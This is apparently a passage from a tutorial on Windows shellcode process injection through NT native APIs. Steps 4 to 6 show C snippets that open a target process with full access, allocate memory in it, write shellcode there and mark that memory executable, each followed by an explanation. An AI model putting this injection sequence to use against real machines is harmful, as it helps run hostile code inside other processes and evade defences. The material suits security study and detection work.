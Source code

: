 STATUS = NtOpenProcess(&hProcess, PROCESS\_ALL\_ACCESS, &OA, &CID);  
if (STATUS != STATUS\_SUCCESS) {  
    printf("\[-\] Couldn't get a handle to the process , error :0x%lx \\n", STATUS);  
    return EXIT\_FAILURE;  
}

*   **Function Used**: `NtOpenProcess`
*   Opens a handle to the target process (specified in `CID`).
*   Grants full access (`PROCESS_ALL_ACCESS`).
*   The handle (`hProcess`) is used for subsequent memory and thread operations.

- - -

### Step 4: Allocate Memory in the Target Process

STATUS = NtAllocateVirtualMemory(hProcess, &rbuffer, 0, &shell\_size, MEM\_COMMIT | MEM\_RESERVE, PAGE\_READWRITE);  
if (STATUS != STATUS\_SUCCESS) {  
    printf("\[-\] Couldn't Allocate , error: %lx", STATUS);  
    goto CLEANUP;  
}

*   **Function Used**: `NtAllocateVirtualMemory`
*   Allocates memory in the target process (`hProcess`) for injecting shellcode.
*   `rbuffer`: Receives the address of the allocated memory.
*   `shell_size`: Specifies the size of memory to allocate.
*   Memory is allocated as **read/write** (`PAGE_READWRITE`).

- - -

### Step 5: Write Shellcode to the Allocated Memory

STATUS = NtWriteVirtualMemory(hProcess, rbuffer, shell, shell\_size, &BytesWritten);  
if (STATUS != STATUS\_SUCCESS) {  
    printf("\[-\] Couldn't Write to the memory ,error : 0x%lx\\n", STATUS);  
    goto CLEANUP;  
}

*   **Function Used**: `NtWriteVirtualMemory`
*   Writes the shellcode (`shell`) into the allocated memory (`rbuffer`) in the target process.
*   Ensures the shellcode is transferred into the target process’s memory space.

- - -

### Step 6: Change Memory Protection to Execute Shellcode

STATUS = NtProtectVirtualMemory(hProcess, &rbuffer, &shell\_size, PAGE\_EXECUTE\_READ, &oldProtection);  
if (STATUS != STATUS\_SUCCESS) {  
    printf("\[-\] Couldn't Change Protection , error: 0x%lx", GetLastError());  
    goto CLEANUP;  
}

*   **Function Used**: `NtProtectVirtualMemory`
*   Changes the allocated memory’s protection to **PAGE\_EXECUTE\_READ**, allowing the shellcode to execute.
